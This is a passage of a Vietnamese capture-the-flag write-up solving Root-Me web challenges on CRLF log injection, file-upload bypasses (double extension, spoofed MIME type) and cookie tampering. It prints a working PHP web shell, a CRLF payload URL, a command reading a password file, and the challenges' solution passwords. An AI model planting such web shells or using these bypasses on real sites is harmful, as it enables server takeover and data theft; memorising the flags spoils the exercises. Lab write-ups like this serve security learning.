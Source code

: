 ```js
Password: karambar
```
## 14. CRLF
- CRLF là viết tắt của Carriage Return và Line Feed, CR và LF là các ký tự điều khiển, được mã hóa tương ứng 0x0D (13 trong hệ thập phân) và 0x0A (10 trong hệ thập phân)
- CRLF Injection là một lỗ hổng có thể xảy ra khi người lập trình không kiểm tra kĩ càng dữ liệu người dùng đẩy lên và cho phép người dùng chèn cả các kí tự CR và LF này vào.
- Bài này cần bypass được log là cần hiển thị được trường admin "authenticated." nhưng khi điền thì tất cả input đề false nên cần inject CRLF để tạo dòng mới.
- Payload url
```js
http://challenge01.root-me.org/web-serveur/ch14/?username=admin%20authenticated.%0D%0Aa&password=admin
```
```js
Password: rFSP&G0p&5uAg1%
```
## 15. File upload - Double extensions
- Bài này lỗ hổng về file upload. Tạo một file php chứa mã độc thực hiện lệnh systerm.
```php
<?php
    if(isset($_GET['c'])){
        $shell = system($_GET['c']);
        echo $shell;
    }
?>
```
- Vì phần upload hạn chế đuôi .php nên chuyển thành .php.jpg là bypass.
- Up lên và thực hiện lệnh thôi. Password nằm ở đây
```js
test.php.jpg?c=cat ../../../.passwd
```

```js
Password: Gg9LRz-hWSxqqUKd77-_q-6G8
```
## 16. File upload - MIME type
- Bài này làm giống như bài trên nhưng bị từ chối không thực thi lệnh php ở jpg nên cần upload thẳng file php lên.
- Nhưng khi đó cần phải thay đổi trường MINE type sang image/png để có thể upload được lên.
- Sửa trường Content-type: image/png là up được php lên
![Screenshot 2022-05-13 104630](https://i.imgur.com/xJvoHXF.png)
- Bây giờ đọc file .passwd là thành công.
![Screenshot 2022-05-13 104714](https://i.imgur.com/wKyiFPr.png)

```js
Password: a7n4nizpgQgnPERy89uanf6T4
```

## 17. HTTP - Cookies
- Ban đầu cho một input thì nhập admin vào nhưng nhập gì cũng chỉ là user bình thường.
- Vô phần request xem thì mặc định cookie là user nên chỉ cần thay đổi thành admin là thành công
![Screenshot 2022-05-13 104929](https://i.imgur.com/JHwAFiG.png)
![Screenshot 2022-05-13 105200](https://i.imgur.com/CTD3ekr.png)
![Screenshot 2022-05-13 105225](https://i.imgur.com/THOInJj.png)
